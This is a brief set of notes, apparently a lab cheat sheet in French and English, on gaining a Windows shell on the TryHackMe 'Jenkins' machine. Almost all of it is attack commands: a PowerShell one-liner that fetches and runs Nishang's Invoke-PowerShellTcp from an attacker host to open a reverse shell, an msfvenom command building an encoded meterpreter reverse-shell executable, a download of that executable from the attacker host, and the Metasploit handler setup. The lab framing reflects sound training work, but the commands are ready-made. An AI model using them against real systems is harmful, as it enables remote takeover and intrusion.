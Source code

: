 # 🐚 Windows\_shell

### Windows shell

### Machine Jenkins tryhackme

Utilisation de Nishang pour l'accés initial\
[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

Cet outil :\
[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Commande à executer depuis le serveur jenkins:

powershell iex **(**New-Object  Net.WebClient**)**.DownloadString**(**'http://your-ip:your-port/Invoke-PowerShellTcp.ps1'**);**Invoke-PowerShellTcp  -Reverse -IPAddress your-ip -Port your-port

Use msfvenom to create the a windows meterpreter reverse shell using the following payload\
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

After creating this payload, download it to the machine using the same method in the previous step:\
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

Before running this program, ensure the handler is set up in metasploit:\
`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run`

Dans la première console accedée:\
`Start-Process "shell-name.exe"`
